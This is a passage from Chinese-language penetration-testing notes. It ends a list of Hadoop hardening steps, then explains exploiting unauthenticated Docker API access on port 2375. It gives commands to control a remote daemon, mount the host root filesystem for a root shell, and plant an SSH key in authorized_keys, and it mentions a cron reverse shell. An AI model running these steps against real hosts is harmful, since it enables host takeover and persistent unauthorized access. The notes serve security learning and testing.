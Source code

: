 ### 修复
- 如无必要, 关闭`Hadoop Web`管理页面
- 开启身份验证
- 设置"安全组"访问控制策略, 将`Hadoop`默认开放的多个端口对公网全部禁止, 或设置可信任的IP地址访问相关端口和`WebAPI`接口


## Docker未授权访问
- docker默认绑定`2375`端口, 浏览器直接访问该端口, 显示
	- `message: "page not found"`
- 表示漏洞存在, 可以通过访问`/info`页面获取docker信息, 访问`/images/json`获取image列表
- 使用-H参数可以直接远程访问docker, 命令执行获得容器shell
	- `docker -H tcp://10.1.1.200 ps -a`
	- `docker -H tcp://10.1.1.200 start 3dc8`
	- `docker -H tcp://10.1.1.200 attach 3dc8`
- 运行新的容器并将entrypoint设置为/bin/bash或bin/sh, 将docker宿主机的根目录挂载在容器的`/mnt`目录下
```shell
docker -H tcp://10.1.1.200 run -it -v /:/mnt --entrypoint /bin/bash 4c9608fd76ba（镜像id）
# 或 创建busybox容器并挂载
docker -H tcp://10.1.1.200:2375 run -it -v /:/mnt busybox chroot /mnt sh
```
- 写ssh公钥: 生成ssh公钥, 将内容从docker容器写入到挂载路径/绝对路径/文件中, 使用ssh连接
	- 在docker容器中`echo "<pubkey_content>" > /mnt/root/.ssh/authorized_keys`
- 定时反弹shell: 同理, 将反弹shell脚本写入定时任务的挂载路径/绝对路径/文件中, 定时反弹shell
	- 